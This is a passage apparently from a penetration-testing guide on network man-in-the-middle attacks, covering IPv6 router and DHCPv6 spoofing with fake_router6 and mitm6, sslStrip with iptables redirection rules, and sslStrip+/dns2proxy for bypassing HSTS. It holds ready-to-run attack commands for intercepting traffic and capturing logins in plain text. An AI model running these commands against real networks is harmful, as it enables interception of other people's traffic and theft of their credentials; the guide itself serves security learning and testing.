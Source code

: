```bash
sysctl -w net.ipv6.conf.all.forwarding=1 4
ip route add default via <ROUTER_IPv6> dev wlan0
fake_router6 wlan0 fe80::01/16
```

### IPv6 DHCP spoofing

By default some OS try to configure the DNS reading a DHCPv6 packet in the network. Then, an attacker could send a DHCPv6 packet to configure himself as DNS. The DHCP also provides an IPv6 to the victim.

```bash
dhcp6.spoof on
dhcp6.spoof.domains <list of domains>

mitm6
```

### HTTP (fake page and JS code injection)

## Internet Attacks

### sslStrip

Basically what this attack does is, in case the **user** try to **access** a **HTTP** page that is **redirecting** to the **HTTPS** version. **sslStrip** will **maintain** a **HTTP connection with** the **client and** a **HTTPS connection with** the **server** so it ill be able to **sniff** the connection in **plain text**.

```bash
apt-get install sslstrip
sslstrip -w /tmp/sslstrip.log --all - l 10000 -f -k
#iptables --flush
#iptables --flush -t nat
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000
iptables -A INPUT -p tcp --destination-port 10000 -j ACCEPT
```

More info [here](https://www.blackhat.com/presentations/bh-dc-09/Marlinspike/BlackHat-DC-09-Marlinspike-Defeating-SSL.pdf).

### sslStrip+ and dns2proxy for bypassing HSTS

The **difference** between **sslStrip+ and dns2proxy** against **sslStrip** is that they will **redirect** for example _**www.facebook.com**_ **to** _**wwww.facebook.com**_ (note the **extra** "**w**") and will set the **address of this domain as the attacker IP**. This way, the **client** will **connect** to _**wwww.facebook.com**_ **(the attacker)** but behind the scenes **sslstrip+** will **maintain** the **real connection** via https with **www.facebook.com**.

The **goal** of this technique is to **avoid HSTS** because _**wwww**.facebook.com_ **won't** be saved in the **cache** of the browser, so the browser will be tricked to perform **facebook authentication in HTTP**.\
Note that in order to perform this attack the victim has to try to access initially to [http://www.faceook.com](http://www.faceook.com) and not https. This can be done modifying the links inside an http page.
